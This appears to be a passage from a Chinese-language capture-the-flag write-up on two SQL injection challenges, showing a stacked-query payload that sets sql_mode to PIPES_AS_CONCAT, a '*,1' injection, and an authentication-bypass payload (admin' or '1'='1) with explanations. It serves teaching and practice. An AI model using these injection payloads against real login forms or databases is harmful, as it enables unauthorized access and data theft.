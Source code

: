 ~~~php
~~~
`||`在`sql`语句中是`或`的意思
但是在这里，我们需要将其进行重新定义
~~~sql
PIPES_AS_CONCAT	//将"||"视为字符串的连接操作符而非或运算符
作用实例：111||222 → 111222
~~~
本题有两种解法
1、改变`||`意义
`||`在`sql`语句中之所以能改变成连字符是因为`mysql`中的`@@sql_modesql_mode`
~~~payload
1;set sql_mode=PIPES_AS_CONCAT;select 1
~~~
2、不改变`||`的意义，按`或`进行使用
~~~payload
*,1
~~~
传入后，`sql`语句被拼接为
~~~sql
$sql = "select *,1||flag from Flag";
//作用等同于，因为	1||flag==1
$sql = "select *,1 from Flag";
~~~
3、堆叠注入
![00pKUO.png](https://s1.ax1x.com/2020/10/08/00pKUO.png)

## [极客大挑战 2019]EasySQL 1（万能密码）
这道题是一道万能密码登陆
![00CphF.png](https://s1.ax1x.com/2020/10/08/00CphF.png)
首先尝试`admin	admin`
![00CRCF.png](https://s1.ax1x.com/2020/10/08/00CRCF.png)
尝试单引号闭合`admin'	admin`，报错
![00CXgH.png](https://s1.ax1x.com/2020/10/08/00CXgH.png)
说明本题是单引号闭合
那么构造`payload`
~~~payload
username=admin' or '1'='1
password=admin' or '1'='1
~~~
解释一下`payload`构造的原理
上面已经判断出`sql`语句是单引号闭合
并且在`sql`中`admin or 1=1   ==  1`
![0DTyin.png](https://s1.ax1x.com/2020/10/09/0DTyin.png)
因此`payload`传入后，从数据库取出的用户名和密码就对我们可控
~~~sql
username=1
passowrd=1
~~~
所以在判断时一定正确，登陆成功。
